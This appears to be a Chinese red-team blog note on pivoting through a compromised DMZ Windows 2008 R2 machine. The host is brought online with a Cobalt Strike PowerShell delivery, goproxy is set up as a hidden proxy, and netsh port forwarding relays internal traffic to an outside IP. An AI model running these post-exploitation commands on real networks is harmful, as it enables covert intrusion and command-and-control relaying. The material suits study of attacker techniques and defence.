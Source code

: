 


1、dmz 机器上线，方式：Scripted Web Delivery powershell 脚本（此 DMZ 机器是 2008 r2）

![title](https://leanote.com/api/file/getImage?fileId=5ebf1982ab64411c3302714f)





2、dmz 机器架设 HTTP 代理


注：为什么这里是 HTTP 代理而不是 socks5 代理，因为记忆中 Cobalt Strike 只支持 socks4a（未确认）。

>在下常用的一些代理搭建项目：
<br/>
>|项目    |  代理类型 | 备注| 参考  |
| :--:|:--: | :--:| :--: |
| tinyproxy| HTTP |  依赖 docker 环境快速部署  |[快速搭建 HTTP 代理](http://blog.leanote.com/post/snowming/832db0f4cdff)|
|tor    |   socks  | 匿名性好，速度慢|[快速搭建 HTTP 代理](http://blog.leanote.com/post/snowming/832db0f4cdff)|
| esocks  |    socks5 | 快速部署依赖 Java 环境  |[快速搭建 HTTP 代理](http://blog.leanote.com/post/snowming/832db0f4cdff)|
|goproxy|HTTP(S),SOCKS5,WEBSOCKET, TCP, UDP |编译好的单文件不依赖任何环境|[goproxy](https://github.com/snail007/goproxy/releases)|

在这里我用的是 goproxy 在这个 win 2008 r2 上架设 socks 5 代理，毕竟绿色软件，单 exe 即可。


- proxy-windows-386.tar.gz


```
shell C:\Users\Administrator\Desktop\proxy.exe http -t tcp -p "0.0.0.0:8080" --daemon
```
注：一定要加 `--daemon`，不然 beacon shell 里面会被消息疯狂刷过去。


本地测试：

![title](https://leanote.com/api/file/getImage?fileId=5ec084f7ab64415f3500c2c4)

代理架设成功了。


3、 在 dmz 机器上开启端口转发


```
shell netsh interface portproxy add v4tov4 listenaddress=172.17.30.205 listenport=80 connectaddress=123.57.227.115 connectport=8080
```


![title](https://leanote.com/api/file/getImage?fileId=5ec08558ab64415f3500c399)

这样就把 `172.17.30.205:80` 转发到了 `123.57.227.115:8080`（HTTP Proxy）。

>注：

>- 查看转发
netsh interface portproxy show v4tov4
- 取消上面配置的端口转发：
netsh interface portproxy delete v4tov4 listenaddress=172.17.30.205 listenport=80
<br/>
